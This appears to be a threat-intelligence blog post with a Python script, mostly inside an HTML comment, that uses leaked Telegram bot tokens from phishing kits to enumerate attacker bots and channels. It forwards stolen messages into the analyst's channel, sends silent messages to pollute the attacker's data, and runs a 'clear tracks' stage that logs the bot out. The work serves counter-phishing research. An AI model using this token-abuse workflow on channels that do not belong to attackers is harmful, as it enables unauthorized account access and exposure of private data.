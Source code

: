 ```yaml
---
layout: threat-intel-default
title:  "Telegram Enumeration"
date:   2025-08-07
description: "qwerty"
author: "RedDuck"
tags: threat-intel
---
```


In order to facilitate research into attacks which use Telegram to exfiltrate victim information, as well as seek out the appropriate entities to which to report the crimes, we rely on using native Telegram bot API endpoints to enumerate attacker information.

Note: this requires that the attacker leaves their bot token and channel ID available, whether in a config file or a network request.

THESE WORKFLOWS SHOULD NOT BE USED AGAINST NON-ATTACKER CHANNELS. WE ONLY ANALYZE SITES SUBMITTED TO PHISHTANK.ORG, AND ARE CONFIMRED TO BE VALID PHISHES.

<pre><code class="language-python">
from datetime import datetime
import requests
import time
import os

USING = "BOT_TOKEN1"

BOT_TOKENS = {"BOT_TOKEN1": "{BOT-TOKEN}"}

CHANNEL_IDS = {"BOT_TOKEN1": "{BOT-CHANNEL}"}

MY_CHANNEL_IDS = {"BOT_TOKEN1": "{YOUR-CHANNEL}"}

URL = f"https://api.telegram.org/{BOT_TOKENS[USING]}/" 
</code></pre>

<!-- ```python
from datetime import datetime
import requests
import time
import os

USING = "BOT_TOKEN1"

BOT_TOKENS = {"BOT_TOKEN1": "{BOT-TOKEN}"}

CHANNEL_IDS = {"BOT_TOKEN1": "{BOT-CHANNEL}"}

MY_CHANNEL_IDS = {"BOT_TOKEN1": "{YOUR-CHANNEL}"}

URL = f"https://api.telegram.org/{BOT_TOKENS[USING]}/" 

# Workflow that will gather data specific to the channel that the attackers are using to exfiltrate data. If the channel ID is not known, you can use 
# determine this value by interacting with the attacker's bot; the response you receive will likely contain the ID of the channel used to exfiltrate victim data
channel_endpoints = {
    "getChatAdministrators":f"getChatAdministrators?chat_id={CHANNEL_IDS[USING]}",
    "getChat":f"getChat?chat_id={CHANNEL_IDS[USING]}",
    "getChatMembersCount":f"getChatMembersCount?chat_id={CHANNEL_IDS[USING]}",
    "createChatInviteLink":f"createChatInviteLink?chat_id={CHANNEL_IDS[USING]}",
}

# Workflow that will gather data on the bot, such as 
# - Name
# - Recent updates
# - Description
# and other general information that can be used later.
gen_endpoints = {
    "getUpdates":"getUpdates",
    "getWebhookInfo":"getWebhookInfo",
    "getMe":"getMe",
    "getMyCommands":"getMyCommands",
    "getMyName":"getMyName",
    "getMyDescription":"getMyDescription",
    "getAvailableGifts":"getAvailableGifts",
    "getWebhookInfo":"getWebhookInfo",
}

# Workflow that will remove evidence of your interaction with the attacker's bot. These endpoints will
# - Leave the chat you created to enumerate stolen data
# - Close the bot
# - Log the bot out
clear_tracks = {
    "leaveChat":f"leaveChat?chat_id={MY_CHANNEL_IDS[USING]}",
    "close":f"close",
    "logOut":f"logOut"
}

# Workflow that will send data specified by you to the attacker's channel. By default, this workflow sends empty messages, and disables notifications, so as to minimize the likelihood that the attacker will immediately detect any anomolous behavior. You may use this workflow to pollute the attacker's
# dataset, enumerate channel ID(s), etc.
sendMessage = {
    "sendMessage":f"sendMessage?text=''&chat_id={MY_CHANNEL_IDS[USING]}&disable_notification=True"
}

# Workflow to enumerate what data the attackers have stolen. 
forwardMessage = {
    "forwardMessage": f"forwardMessage?chat_id={MY_CHANNEL_IDS[USING]}&from_chat_id={CHANNEL_IDS[USING]}&message_id="
}

folder = f"{USING}-{datetime.today().strftime('%m-%d-%y')}"
try:
    os.mkdir(f"{folder}")
except:
    print("Folder already exists")
os.chdir(f"{folder}")

def enumerate():
    for inc in range(X,Y): 
        for key in forwardMessage.keys():
            looking_at = key
            response = requests.get(URL+forwardMessage[looking_at]+str(inc))
            print(response.text)
            if "Too Many Requests: retry after" not in response.text and "Bad Request: message to forward not found" not in response.text:
                with open(f"{looking_at}.json","a") as a:
                    a.write(f"{response.text}\n")
    
def query_endpoint(endpoint):
    for key in endpoint.keys():
        looking_at = key
        response = requests.get(URL+endpoint[looking_at])
        print(response.text)
        if '{"ok":true' in response.text:
            with open(f"{looking_at}.json","a") as a:
                a.write(f"{response.text}\n")

def initial_recon():
    query_endpoint(gen_endpoints)
    query_endpoint(channel_endpoints)

STAGE = "3"

match STAGE:
    case "1":
        initial_recon()
    case "2":
        enumerate()
    case "3":
        query_endpoint(clear_tracks)

os.chdir("..")
``` -->